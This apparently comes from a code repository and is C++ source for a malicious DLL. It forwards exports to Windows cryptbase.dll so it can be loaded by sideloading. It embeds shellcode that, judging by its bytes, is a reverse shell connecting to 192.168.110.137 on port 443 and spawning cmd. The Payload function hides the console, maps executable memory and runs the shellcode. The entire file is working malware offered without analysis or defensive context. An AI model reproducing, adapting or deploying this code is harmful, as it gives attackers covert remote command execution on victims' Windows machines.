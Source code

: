```C++
#pragma comment(linker,"/export:SystemFunction029=C:\\Windows\\System32\\cryptbase.SystemFunction029,@7")
#pragma comment(linker,"/export:SystemFunction034=C:\\Windows\\System32\\cryptbase.SystemFunction034,@8")
#pragma comment(linker,"/export:SystemFunction036=C:\\Windows\\System32\\cryptbase.SystemFunction036,@9")
#pragma comment(linker,"/export:SystemFunction040=C:\\Windows\\System32\\cryptbase.SystemFunction040,@10")
#pragma comment(linker,"/export:SystemFunction041=C:\\Windows\\System32\\cryptbase.SystemFunction041,@11")

#include <windows.h>
#include <iostream>

unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x6e\x89"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

VOID Payload() {
 ShowWindow(GetConsoleWindow(), SW_HIDE);

 HANDLE mem_handle = CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(buf), NULL);

 void* mem_map = MapViewOfFile(mem_handle, FILE_MAP_ALL_ACCESS | FILE_MAP_EXECUTE, 0x0, 0x0, sizeof(buf));

 std::memcpy(mem_map, buf, sizeof(buf));

 std::cout << ((int(*)())mem_map)() << std::endl;
}

```